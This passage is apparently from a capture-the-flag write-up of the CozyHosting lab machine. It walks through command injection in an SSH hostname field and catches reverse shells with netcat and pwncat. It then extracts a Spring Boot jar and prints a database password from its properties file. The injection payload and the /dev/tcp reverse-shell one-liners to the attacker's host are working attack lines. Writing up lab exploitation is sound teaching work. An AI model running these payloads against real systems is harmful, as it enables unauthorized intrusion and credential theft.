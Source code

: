 I then try some command injection with `;whoami;` as the username, but I encounter an error about the `@<hostname>` being an issue at the end.

I decide to put my payload inside the SSH command and attempt some command injection.

I had alot of trouble achieving a reverse shell and ended up looking for some other options...

For whatever reason this ended up working: ``;`(/bin/bash)0>/dev/tcp/10.10.***.***/4445`` only once followed with `exec >&0` in the reverse shell connection.

```
$ nc -lvnp 4445
Connection from 10.10.11.230:43012
exec >&0
whoami
app
```

## User Flag

Looking in the current directory I found a file called `cloudhosting-0.0.1.jar`, and I hosted a directory webserver to download the file locally using `python3 -m http.server` and then visiting [cozyhosting.htb:8000](http://cozyhosting.htb:8000).

I extract the file using `jar xf cloudhosting-0.0.1.jar` and get some folders:

```
BOOT-INF/
META-INF/
org/
```

Looking inside `BOOT-INF/classes/application.properties` we see some credentials:

```
...
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

Before logging in I make my shell more usable with `pwncat-cs`.

```
$ pwncat-cs
[00:05:00] Welcome to pwncat 🐈!
(local) pwncat$ listen --host=10.10.16.9 -m linux 4444
[00:05:08] new listener created for 10.10.16.9:4444
```

and in our earlier shell we run a reverse shell: `/bin/bash -i >& /dev/tcp/10.10.16.9/4444 0>&1` and recieve a connection back in pwncat.

```
[01:26:43] 10.10.11.230:55292: registered new host w/ db
           listener: 10.10.16.9:4444: linux session from 10.10.11.230:55292
           established
           all pending channels configured
```

